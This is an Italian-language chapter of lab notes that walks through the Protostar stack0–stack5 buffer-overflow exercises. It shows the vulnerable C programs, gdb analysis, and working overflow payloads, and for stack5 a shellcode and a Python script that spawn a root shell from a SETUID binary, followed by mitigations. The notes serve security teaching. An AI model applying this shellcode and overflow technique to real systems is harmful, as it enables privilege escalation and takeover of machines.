\chapter{Protostar}
La macchina virtuale Protostar contiene esercizi di sicurezza legati alla corruzione della memoria. Ciascun esercizio corrisponde a un livello, per un totale di 23 esercizi divisi per temi:
\begin{itemize}
    \item Stack-based buffer overflow
    \item Format string
    \item Heap-based buffer overflow
    \item Network byte ordering
\end{itemize}
Vedremo solo alcuni di questi livelli.
La macchina virtuale è scaricabile dal sito \href{https://exploit.education/}{Exploit Education}.
Per l'installazione: 
\begin{itemize}
    \item Scarichiamo l'immagine ISO \textit{exploit-exercises-protostar-2.iso} dalla pagina \href{http://exploit.education/downloads/}{Download}.
    \item Successivamente, importiamola in VirtualBox, creando una nuova macchina virtuale
\end{itemize}
Gli account a disposizione sono due:
    \begin{itemize}
        \item \textbf{Giocatore}Giocatore: Un utente che intende partecipare alla sfida (simulando il ruolo dell'attaccante) si autentica con le credenziali seguenti
        \begin{itemize}
            \item \textbf{Username}: user
            \item \textbf{Password}: user
        \end{itemize}
        \item \textbf{Amministratore}:
        \begin{itemize}
            \item \textbf{Username}: root
            \item \textbf{Password}: godmode
        \end{itemize}
    \end{itemize}
    L'utente user utilizza le informazioni contenute nella directory \textbf{/opt/protostar/bin/} per conseguire uno specifico obiettivo:
    \begin{itemize}
        \item Modifica del flusso di esecuzione
        \item Modifica della memoria
        \item Esecuzione di codice arbitrario
    \end{itemize}
\section{Informazioni utili}
\begin{itemize}
    \item La macchina protostar gira su architettura a 32bit
    \item Se gira su processore intel allora l'architettura è \textbf{Little Endian}
\end{itemize}

% ------------------ 
% Protostar stack0
% ------------------ 
\section{Stack 0}
Questo livello introduce diversi concetti:
\begin{itemize}
    \item la memoria può essere accessibile al di fuori della sua regione di allocazione
    \item come sono disposte le variabili nello stack
    \item la modifica di zone al di fuori della memoria allocata può alterare l'esecuzione del programma.
\end{itemize}
Il programma in questione si chiama \textbf{stack0.c} e il suo eseguibile ha il seguente percorso: \textbf{/opt/protostar/bin/stack0}

Il codice sorgente è il seguente
\begin{lstlisting}[style=cstyle]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    modified = 0;
    gets(buffer);

    if(modified != 0) {
        printf("you have changed the 'modified' variable\n");
    } else {
        printf("Try again?\n");
    }
}
\end{lstlisting}

\subsection{Obiettivo}
L'obiettivo della sfida è la modifica del valore della variabile  \textbf{modified} a tempo di esecuzione.

\subsection{Analisi del sorgente}
Analizzando il codice di stack0.c scopriamo che il programma stampa un messaggio di conferma se la variabile modified è diversa da zero.
Notiamo inoltre che le variabili modified e buffer sono spazialmente vicine. Saranno vicine anche in memoria centrale?

\subsection{Idea per risolvere la sfida}
Scrivere 68 byte in buffer, poiché buffer è un array di 64 caratteri, i primi 64 byte in input riempiono buffer e i restanti 4 byte riempiono modified.

Per analizzare la fattibilità dell'attacco bisogna verificare due ipotesi:
    \begin{itemize}
        \item \textbf{Ipotesi 1}: \texttt{gets(buffer)} permette l'input di una stringa più lunga di 64 byte
        \item \textbf{Ipotesi 2}: Le variabili \texttt{buffer} e \texttt{modified} sono contigue in memoria
    \end{itemize}
Leggendo il manuale della \textit{gets} si evince che non effettua controlli sulla taglia dell'input, di conseguenza possiamo passare un input più grande di 64 byte per buffer.

Per la seconda ipotesi invece controlliamo come è strutturato lo stack, ovvero ricostruiamo lo \textbf{stack layout}. Scopriamo che lo stack contiene un record di attivazione(\textbf{frame}) per ciascuna funzione invocata e utilizza un meccanismo LIFO(Last In First Out). L'aggiunta di frame fa cresce lo stack verso gli indirizzi bassi di memoria. 

Lo stack viene gestito mediante tre registri:
\begin{itemize}
    \item Puntatore alla cella di memoria che si trova al top dello stack (ESP/RSP)
    \item Puntatore alla cella di inizio del frame corrente (EBP/RBP)
    \item Puntatore alla cella che contiene il valore calcolato dalla funzione (EAX/RAX)
\end{itemize}
I nomi dei registri cambiano a seconda dell'architettura:
\begin{itemize}
    \item 32 bit: ESP/EBP/EAX
    \item 64 bit: RSP/RBP/RAX
\end{itemize}
Stando alla documentazione letta sullo stack, la variabile \textbf{buffer} dovrebbe essere piazzata ad un indirizzo più basso della variabile \textbf{modified}. Questo dipende dal fatto che le variabili definite per ultime stanno in cima allo stack; lo stack cresce verso gli indirizzi bassi.

Quindi ci basta dare in input lungo almeno 65byte e saremo in grado di sovrascrivere la variabile modified. Per semplicità, invece di scrivere 65 caratteri, possiamo usare uno script python in-line come il seguente:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 65'
\end{lstlisting}
L'output di questo comando è passato in input a stack0 tramite pipe, come segue:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 65' | /opt/protostar/bin/stack0
\end{lstlisting}

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 65' | /opt/protostar/bin/stack0
\end{lstlisting}
Vinciamo la sfida.

% ------------------ 
% Protostar stack1
% ------------------ 
\section{Stack 1}
Il programma in questione si chiama \textbf{stack1.c} e il suo eseguibile ha il seguente percorso: \textbf{/opt/protostar/bin/stack1}

Il codice sorgente è il seguente
\begin{lstlisting}[style=cstyle]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];

    if(argc == 1) {
        errx(1, "please specify an argument\n");
    }

    modified = 0;
    strcpy(buffer, argv[1]);

    if(modified == 0x61626364) {
        printf("you have correctly got the variable to the right value\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }
}
\end{lstlisting}

\subsection{Obiettivo}
L'obiettivo della sfida è impostare la variabile \textbf{modified} al valore \textbf{0x61626364} a tempo di esecuzione.

\subsection{Analisi del sorgente}
Analizzando il sorgente scopriamo che il programma si aspetta un argomento da tastiera.

\subsection{Idea per risolvere la sfida}
L'idea su cui si poggia l'attacco a \texttt{stack1} è identica a quella vista per \texttt{stack0}:
\begin{itemize}
    \item Si costruisce un input di 64 'a' per riempire \texttt{buffer}
    \item Si appendono i 4 caratteri aventi codice ASCII \texttt{0x61}, \texttt{0x62}, \texttt{0x63}, \texttt{0x64}, per riempire \texttt{modified}
    \item Si invia l'input a \texttt{stack1}
\end{itemize}

Leggiamo la documentazione sul set ASCII e capiamo che i caratteri corrispondenti ai codici richiesti per vincere la sfida sono:
\begin{itemize}
    \item 0x61 $\rightarrow$ a
    \item 0x62 $\rightarrow$ b
    \item 0x63 $\rightarrow$ c
    \item 0x64 $\rightarrow$ d
\end{itemize}

Dato che l'architettura intel è \textbf{Little Endian} l'input che inseriamo sarà al rovescio. Quindi il giusto input da inserire è:
\begin{lstlisting}[style=bashstyle]
    /opt/protostar/bin$ ./stack1 $(python -c "print 'a'*64 + 'dcba'")
\end{lstlisting}
La variabile \textbf{modified} viene modificata correttamente, infatti ci viene stampato a video il messaggio: \textcolor{red}{you have correctly got the variable to the right value}. Vinciamo quindi la sfida.

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    /opt/protostar/bin$ ./stack1 $(python -c "print 'a'*64 + 'dcba'")
\end{lstlisting}

% ------------------ 
% Protostar stack2
% ------------------ 
\section{Stack 2}
Stack 2 esamina le variabili d'ambiente e come possono essere impostate/settate.
Il programma in questione si chiama \textbf{stack2.c} e il suo eseguibile ha il seguente percorso: \textbf{/opt/protostar/bin/stack2}

Il codice sorgente è il seguente
\begin{lstlisting}[style=cstyle]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char *variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
        errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }

}
\end{lstlisting}

\subsection{Obiettivo}
L'obiettivo della sfida è impostare la variabile \textbf{modified} al valore \textbf{0x0d0a0d0a} a tempo di esecuzione.

\subsection{Analisi del sorgente}
Analizzando il sorgente scopriamo che il programma stack2 accetta input locali, tramite una variabile di ambiente \textbf{(GREENIE)}.

\subsection{Idea per risolvere la sfida}
Leggendo il manuale sul set ASCII scopriamo che i caratteri corrispondenti ai codici richiesti sono i seguenti:
\begin{itemize}
    \item 0x0a $\rightarrow$ '\textbackslash n' (ASCII Line Feed)
    \item 0x0d $\rightarrow$ '\textbackslash r' (ASCII Carriage Return)
\end{itemize}

L'idea su cui si poggia l'attacco a \texttt{stack2} è identica a quella vista per \texttt{stack1}:
\begin{itemize}
    \item Si costruisce un input di 64 'a' per riempire \texttt{buffer}
    \item Si appendono i 4 caratteri aventi codice ASCII \texttt{0x0d}, \texttt{0x0a}, \texttt{0x0d}, \texttt{0x0a}, al rovescio, per riempire \texttt{modified}
    \item Si invia l'input a \texttt{stack2}
\end{itemize}

Possiamo farlo usando il comando:
\begin{lstlisting}[style=bashstyle]
    export GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")
\end{lstlisting}
Mandiamo in esecuzione stack 2 e verrà stampato il messaggio: \textcolor{red}{you have correctly modified the variable}, vinciamo quindi la sfida.

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # entriamo nella cartella di lavoro
    cd /opt/protostar/bin
    # modifichiamo GREENIE
    export GREENIE=$(python -c "print 'a'*64 + '\x0a\x0d\x0a\x0d'")
\end{lstlisting}

% ------------------ 
% Protostar stack3
% ------------------ 
\section{Stack 3}
Stack3 esamina le variabili di ambiente e come possono essere impostate, e sovrascrive i puntatori alle funzioni memorizzati nello stack.
Il programma in questione si chiama \textbf{stack3.c} e il suo eseguibile ha il seguente percorso: \textbf{/opt/protostar/bin/stack3}

Il codice sorgente è il seguente
\begin{lstlisting}[style=cstyle]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
}
\end{lstlisting}

\subsection{Obiettivo}
L'obiettivo della sfida è impostare \textbf{fp=win} a tempo di esecuzione. Ciò modifica il flusso di esecuzione, poiché provoca il salto del codice alla funzione \textbf{win()}.

\subsection{Analisi del sorgente}
Leggendo il sorgente notiamo che il programma stack3 accetta input locali, da tastiera o da altro processo (tramite pipe). L'input è una stringa generica e non sembrano esistere altri metodi per fornire input al programma.

\subsection{Idea per risolvere la sfida}
L'idea qui è quella di recuperare l'indirizzo della funzione \textbf{win()} a partire dal binario eseguibile stack3.
Una volta trovato questo indirizzo, basta appenderlo all'input(ricordando sempre di scriverlo al rovescio per l'architettura Little Endian). Così facendo:
\begin{itemize}
    \item il valore di \textbf{fp} viene sovrascritto con l'indirizzo della funzione \textbf{win()}
    \item dato che fp sarà diverso da zero, viene provocato il salto a fp (cioè a win()) 
    \item Vinciamo la sfida!
\end{itemize}
Quindi in breve
\begin{itemize}
    \item recuperiamo l'indirizzo di win()
    \item costruiamo un input di 64 caratteri 'a' seguito dall'indirizzo di win() in formato Little Endian
    \item passiamo l'input a stack3 via pipe
\end{itemize}

Per recuperare l'indirizzo della funzione win(), utilizziamo il debugger di GNU Linux, ossia \textbf{gdb}.
Avviamo gdb con stack3 tramite il comando:
\begin{lstlisting}[style=bashstyle]
    gdb -q /opt/protostar/bin/stack3
    # -q serve per non stampare a video info di copyright
\end{lstlisting}
Usiamo il comando \textcolor{red}{p} per stampare l'indirizzo di win():
\begin{lstlisting}[style=bashstyle]
    $gdb -q /opt/protostar/bin/stack3 
    Reading symbols from /opt/protostar/bin/stack3...done
    (gdb) p win 
    $1 = {void (void)} 0x8048424 <win>
\end{lstlisting}
L'input richiesto può essere generato con Python, facendo attenzione all'ordine dei byte:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 64 + "\x24\x84\x04\x08"'
\end{lstlisting} 
Mandiamo stack3 in esecuzione con l'input appena creato:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 64 + "\x24\x84\x04\x08"' | /opt/protostar/bin/stack3 
\end{lstlisting}
Otteniamo il messaggio \textcolor{red}{calling function pointer, jumping to 0x8048424 code flow succesfully changed}.

Vinciamo quindi la sfida.

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # avvio stack3 in gdb
    gdb -q /opt/protostar/bin/stack3
    # stampo indirizzo win
    p win
    # scrivo script python e mando in pipe a stack3
    python -c 'print "a" * 64 + "\x24\x84\x04\x08"' | /opt/protostar/bin/stack3 
\end{lstlisting}

% ------------------ 
% Protostar stack4
% ------------------ 
\section{Stack 4}
Stack4 esamina il registro EIP e come può essere sovrascritto per modificare il flusso di un programma.
Il programma in questione si chiama \textbf{stack4.c} e il suo eseguibile ha il seguente percorso: \textbf{/opt/protostar/bin/stack4}

Il codice sorgente è il seguente
\begin{lstlisting}[style=cstyle]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    char buffer[64];

    gets(buffer);
}
\end{lstlisting}

\subsection{Analisi del sorgente}
Leggendo il sorgente notiamo che il programma stack4 accetta input locali, da tastiera o da altro processo (tramite pipe). L'input è una stringa generica e non sembrano esistere altri metodi per fornire input al programma.

A differenza della sfida precedente, nel programma stack4 non c'è alcuna variabile esplicita da sovrascrivere.

\subsection{Idea per risolvere la sfida}
Abbiamo bisogno di trovare una locazione di memoria che, se sovrascritta, provoca una modifica del flusso di esecuzione. Possiamo usare la cella \textbf{indirizzo di ritorno} nello stack frame corrente.

L'indirizzo di ritorno è una cella di dimensione pari all'architettura, quindi 4 byte nel caso di Protostar. Contiene l'indirizzo della prossima istruzione da eseguire al termine della funzione descritta nello stack frame.

L'idea è sovrascrivere la cella indirizzo di ritorno con l'indirizzo della funzione win(). Per far ciò occorre identificare:
\begin{itemize}
    \item l'indirizzo della cella di memoria contenente l'indirizzo di ritorno
    \item l'indirizzo della funzione win()
\end{itemize}

\subsection{Layout dello stack}
Eseguiamo passo passo stack4 tramite \textbf{gdb} per ricostruire il layout dello stack. In tal modo capiremo in quale cella si trova l'indirizzo di ritorno. Lo stack frame da analizzare è quello della funzione \textbf{main}.

Iniziamo con il recupero dell'indirizzo della funzione \textbf{win()}, tramite il comando \textcolor{red}{p} in gdb:
\begin{lstlisting}[style=bashstyle]
    $gdb -q /opt/protostar/bin/stack4
    Reading symbols from /opt/protostar/bin/stack4...done
    (gdb) p win 
    $1 = {void (void)} 0x80483f4 <win>
\end{lstlisting}

A questo punto dobbiamo \textbf{disassemblare} il main() e capire cosa succede al suo interno. Usiamo il comando \textcolor{red}{disas} in gdb:
\begin{lstlisting}[style=bashstyle]
    (gdb) disassemble main
\end{lstlisting}
L'output è il seguente:
\begin{figure}[ht]
    
\includegraphics[width=\textwidth]{Capitolo 3/Figure/disas-main-stack4.png}
\end{figure}

Analizzando ogni singola istruzione capiamo che il layout dello stack è il seguente:
\begin{figure}[ht]
    
\includegraphics[width=\textwidth]{Capitolo 3/Figure/layout-stack4.png}
\end{figure}
\clearpage
\textbf{N.B.}\begin{itemize}
    \item 64 byte sono per buffer
    \item 8 byte sono aggiunti dall'architettura per allineare lo stack ad un multiplo di 16
    \item 4 byte sono per EBP
\end{itemize}
Quindi servono (64 + 8 + 4) byte, ovvero 76 byte di padding. Invece i successi 4 byte saranno quelli per sovrascrivere l'indirizzo di ritorno con l'indirizzo della funzione win().

Costruiamo un input di 76 caratteri 'a' seguito dall'indirizzo di win() in formato Little Endian. L'input richiesto può essere generato con Python, facendo attenzione all'ordine dei byte:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 76 + "\xf4\x83\x04\x08"'
\end{lstlisting}
Mandiamo stack4 in esecuzione con l'input appena creato con il comando:
\begin{lstlisting}[style=bashstyle]
    python -c 'print "a" * 76 + "\xf4\x83\x04\x08"' | /opt/protostar/bin/stack4 
\end{lstlisting}
Otteniamo il messaggio \begin{lstlisting}[style=bashstyle]
    code flow succesfully changed
    Segmentation fault
\end{lstlisting}
Il messaggio di Segmentation fault è causato dal fatto che dopo l'esecuzione di win() viene letto il valore successivo  sullo stack (rovinato), per riprendere il flusso di esecuzione. Tuttavia, tale fatto non costituisce un problema poichéè siamo riusciti a vincere la sfida.

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    $gdb -q /opt/protostar/bin/stack4
    p win 
    disassemble main
    python -c 'print "a" * 76 + "\xf4\x83\x04\x08"' | /opt/protostar/bin/stack4
\end{lstlisting}

% ------------------ 
% Protostar stack5
% ------------------ 
\section{Stack 5}
Stack 5 esamina il buffer overflow e in particolare l'iniezione di shellcode tramite input.
Il programma in questione si chiama \textbf{stack5.c} e il suo eseguibile ha il seguente percorso: \textbf{/opt/protostar/bin/stack5}

Il codice sorgente è il seguente
\begin{lstlisting}[style=cstyle]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buffer[64];

    gets(buffer);
}
\end{lstlisting}

\subsection{Analisi del sorgente}
Leggendo il sorgente notiamo che il programma stack4 accetta input locali, da tastiera o da altro processo (tramite pipe). L'input è una stringa generica e non sembrano esistere altri metodi per fornire input al programma.

Esaminando i metadati di stack5 scopriamo che esso è \textbf{SETUID root}.

\subsection{Idea per risolvere la sfida}
Nella sfida precedente, era presente il codice da eseguire (la funzione win()) per vincere la sfida. In questa sfida invece, è richiesta l'esecuzione di codice arbitrario. Tale codice, scritto in linguaggio macchina con codifica esadecimale, viene iniettato tramite l'input. In particolare utilizzeremo un codice macchina che esegue comandi di shell, ovvero uno \textbf{shelcode}.

Produciamo un input contenente:
\begin{itemize}
    \item Lo shellcode (codificato in esadecimale)
    \item Caratteri di padding fino all'indirizzo di ritorno
    \item L'indirizzo iniziale dello shellcode (da scrivere nella cella contenente l'indirizzo di ritorno)
    \item Eseguiamo \textbf{stack5} con tale input
    \item Otteniamo una shell
    \item Poiché stack5 è \textbf{SETUID root}, la shell è di root!
\end{itemize}

Lo shellcode codificato in esadecimale è il seguente:
\begin{lstlisting}[style=pythonstyle]
    "\x31\xc0\x50\x68\x2f\x2f\x73" + \
    "\x68\x68\x2f\x62\x69\x6e\x89" + \
    "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
    "\xcd\x80\x31\xc0\x40\xcd\x80";
\end{lstlisting}
Questo shellcode esegue una shell e siccome SETUID è accesso, sarà una shell di root. La lunghezza è di 28 byte.

\subsection{Layout dello stack}
Eseguiamo passo passo stack5 tramite \textbf{gdb} per ricostruire il layout dello stack. In tal modo capiremo in quale cella si trova l'indirizzo di ritorno, ma soprattutto dobbiamo calcolare l'indirizzo dell inizio dello shellcode. Lo stack frame da analizzare è quello della funzione \textbf{main}.

A questo punto dobbiamo \textbf{disassemblare} il main() e capire cosa succede al suo interno. Usiamo il comando \textcolor{red}{disas} in gdb:
\begin{lstlisting}[style=bashstyle]
    (gdb) disassemble main
\end{lstlisting}
L'output è il seguente:
\begin{figure}[ht]
    
\includegraphics[width=\textwidth]{Capitolo 3/Figure/disas-main-stack5.png}
\end{figure}

Analizzando ogni singola istruzione capiamo che il layout dello stack è il seguente:
\begin{figure}[ht]
    
\includegraphics[width=\textwidth]{Capitolo 3/Figure/layout-stack5.png}
\end{figure}

\clearpage
\textbf{N.B.}\begin{itemize}
    \item 28 byte sono per lo shellcode
    \item 36 byte sono per buffer
    \item 8 byte sono aggiunti dall'architettura per allineare lo stack ad un multiplo di 16
    \item 4 byte sono per EBP
\end{itemize}
Quindi servono (28 + 32 + 8 + 4) byte, ovvero 76 byte di padding. Invece i successi 4 byte saranno quelli per sovrascrivere l'indirizzo di ritorno con l'indirizzo della funzione win().

\textbf{NOTA BENE}
\begin{mdframed}[backgroundcolor=gray!10,linewidth=1pt]
Prima di recuperare l'indirizzo dello shellcode dobbiamo allineare gli indirizzi dello stack tra l'ambiente gdb e il terminale, altrimenti quando eseguiremo da terminale avremo un Segmentation fault.

Quindi usiamo in gdb il comando:
\begin{lstlisting}[style=bashstyle]
    unset env LINES
    unset env COLUMNS
\end{lstlisting}
Questo rimuoverà le varibili d'ambiente LINES e COLUMNS che gdb aggiunge e che rendono diversi gli indirizzi dello stack frame tra gdb e terminale.
\end{mdframed}

Per capire a che indirizzo si trova lo shellcode ci basta partire dall'indirizzo di EBP e andare (8 + 36 + 28) 72 verso indirizzi più bassi.
Recuperiamo l'indirizzo di EBP in questo modo:
\begin{itemize}
    \item Mettiamo un breakpoint dopo la push \%EBP
    \item Recuperiamo l'indirizzo di EBP con il comando \textcolor{red}{p \$ebp}
    \item Eseguiamo in esadecimale l'operazione EBP - 72
\end{itemize}
\clearpage
A questo punto possiamo scrivere il nostro script python \textbf{stack5.py} come segue:
\begin{mdframed}
    \begin{lstlisting}[style=pythonstyle]
        #!/usr/bin/python
        # Parametri da impostare
        length = 76
        ret = '\x5e\xf7\xff\xbf'
        shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
        "\x68\x68\x2f\x62\x69\x6e\x89" + \
        "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
        "\xcd\x80\x31\xc0\x40\xcd\x80";
        padding = 'a' * (length - len(shellcode))
        payload = shellcode + padding + ret
        print payload
    \end{lstlisting}
\end{mdframed}

Salviamo l'output dello script in un file nella directory temporanea \textbf{tmp}, con il comando:
\begin{lstlisting}[style=bashstyle]
    python stack5.py > /tmp/payload
\end{lstlisting}
Mandiamo in esecuzione il programma passandogli l'input malizioso appena creato:
\begin{lstlisting}[style=bashstyle]
    /opt/protostar/bin/stack5 < /tmp/payload
\end{lstlisting}
Viene eseguita \textbf{/bin/dash} ma termina immediatamente. Questo perché quando \textbf{/bin/sh} parte, lo stream STDIN è vuoto perché è stato drenato da gets(). Una lettura successiva su STDIN segnala EOF.

La soluzione è quella di mantenere aperto il flusso di STDIN. Possiamo farlo modificando il comando di attacco nel modo seguente:
\begin{lstlisting}[style=bashstyle]
    (cat /tmp/payload; cat) | /opt/protostar/bin/stack5
\end{lstlisting}
Si usano due comandi \textbf{cat}:
\begin{itemize}
    \item Il primo inietta l'input malevolo e attiva la shell
    \item Il secondo accetta input da \textbf{STDIN} e lo inoltra alla shell, mantenendo il flusso \textbf{STDIN} aperto
\end{itemize}
Eseguendo così stack5 viene avviata una shell, che è una shell di root, quindi vinciamo la sfida.

\subsection{Debolezze}
\begin{itemize}
    \item privilegi di esecuzione ingiustamente elevati
    \item La dimensione dell'input destinato ad una variabile di grandezza fissata non viene controllata
    \item Di conseguenza, un input troppo grande corrompe lo stack
\end{itemize}

\subsection{Mitigazioni}
\begin{enumerate}
    \item Spegnere bit SETUID:
    \begin{itemize}
        \item autenticarsi come root e avviare una shell con il comando: \begin{lstlisting}[style=bashstyle] 
        sudo -i
        \end{lstlisting}
        \item spegnere SETUID con il comando: \begin{lstlisting}[style=bashstyle] 
        chmod u-s /opt/protostar/bin/stack5
        \end{lstlisting}   
        \item Eseguiamo stack5 e noteremo che l'attacco non va a buon fine. 
    \end{itemize}
    \item Limitare la lunghezza massima dell'input destinato ad una variabile di lunghezza fissata. Ad esempio, ciò può essere fatto evitando l'utilizzo di \textbf{gets()} in favore di \textbf{fgets()}.
    Eseguiamo stack5 e la sfida non verrà vinta.
\end{enumerate}
